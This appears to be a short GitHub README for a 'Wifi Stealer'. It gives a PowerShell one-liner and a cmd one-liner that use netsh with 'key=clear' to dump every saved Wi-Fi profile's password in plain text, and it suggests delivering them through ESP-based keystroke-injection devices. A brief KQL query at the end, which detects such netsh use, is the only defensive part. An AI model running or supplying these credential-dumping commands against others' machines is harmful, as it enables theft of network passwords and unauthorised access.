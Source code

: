 # WifiStealing
Wifi Stealer inspired by Manjuska Framework/TCM

Wireless will always be inferior 
:)

(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)} | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Format-Table -Wrap 


for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear


WHID for ESP based duckys

# KQL  

```
DeviceProcessEvents
| where ProcessCommandLine contains "key=clear" //plain-text
| where FileName == "netsh.exe"
```
